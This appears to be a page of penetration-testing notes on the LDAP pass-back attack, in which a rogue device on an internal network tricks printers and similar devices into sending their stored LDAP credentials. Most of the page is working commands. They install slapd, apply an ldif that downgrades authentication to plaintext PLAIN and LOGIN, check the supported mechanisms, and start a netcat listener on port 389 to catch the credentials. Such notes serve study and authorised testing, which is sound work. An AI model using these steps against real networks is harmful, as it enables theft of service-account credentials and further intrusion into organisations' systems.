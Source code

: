 # LDAP Attacks

## Pass-back Attack

- This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device

**Attack Method**

- **Host a Rogue LDAP Server**
  - `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
  - `sudo dpkg-reconfigure -p low slapd`
  - Create a new `olcSaslSecProps.ldif` file to make LDAP only support PLAIN and LOGIN authentication methods. Put the following content in the new file:
  ```
  #olcSaslSecProps.ldif
  dn: cn=config
  replace: olcSaslSecProps
  olcSaslSecProps: noanonymous,minssf=0,passcred
  ```
  - Use the new ldif file to patch your rogue LDAP
    `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
  - Verify configuration was applied to LDAP
    `ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`
    
    ![Result confirmation](screenshots/2022-10-01-14-25-14.png)
    
- Start a Netcat listener (default LDAP port is 389)
  `nc -nlvp 389`
